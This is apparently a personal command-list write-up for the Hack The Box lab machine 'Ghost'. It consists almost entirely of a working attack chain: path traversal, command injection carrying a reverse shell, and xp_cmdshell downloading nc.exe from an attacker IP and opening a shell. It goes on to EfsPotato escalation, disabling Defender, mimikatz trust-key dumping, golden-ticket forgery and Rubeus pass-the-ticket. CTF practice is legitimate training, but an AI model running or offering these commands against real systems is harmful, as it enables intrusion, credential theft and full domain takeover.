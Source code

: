 # Ghost


http://ghost.htb:8008/ghost/api/v3/content/posts/?extra=../../../../etc/passwd&key=a5af628828958c976a3b6cc81a


curl http://intranet.ghost.htb:8008/api-dev/scan -X POST -H 'X-DEV-INTRANET-KEY: !@y******' -H 'Content-Type: application/json' -d '{"url": "<<bash 196 revshell>>"}'


python3 mssqlclient.py ghost.htb/intranet_principal:'He******'@DC01.ghost.htb -windows-auth

impacket-mssqlclient florence.ramirez:'He*****'@ghost.htb -windows-auth

ux******和He******都可以

enum_links
use_link [PRIMARY]
use master
exec_as_login sa
[impacket-mssqlclient] --> EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.xx.xx/nc.exe -OutFile $env:TEMP\nc.exe"'
                           EXEC xp_cmdshell '%TEMP%\nc.exe -e cmd.exe 10.10.xx.xx xxxx';
[python3 mssqlclient.py] --> xp_cmdshell


./EfsPotato.exe 'nc.exe -e cmd.exe 10.10.xx.xx xxxx'


wmic useraccount get name,sid


关AV：
Set-MpPreference -DisableRealtimeMonitoring $true


.\mimikatz.exe "lsadump::trust /patch" exit


.\mimikatz.exe "kerberos::golden /user:Administrator /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498-502 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /rc4:dae1ad83e2af14a379017f244a2f5297 /service:krbtgt /target:GHOST.HTB /ticket:golden.kirbi" exit


.\Rubeus.exe asktgs /ticket:golden.kirbi /dc:dc01.ghost.htb /service:CIFS/dc01.ghost.htb /nowrap /ptt


type \\DC01.ghost.htb\c$\Users\justin.bradley\Desktop\user.txt
type \\DC01.ghost.htb\c$\Users\Administrator\Desktop\root.txt
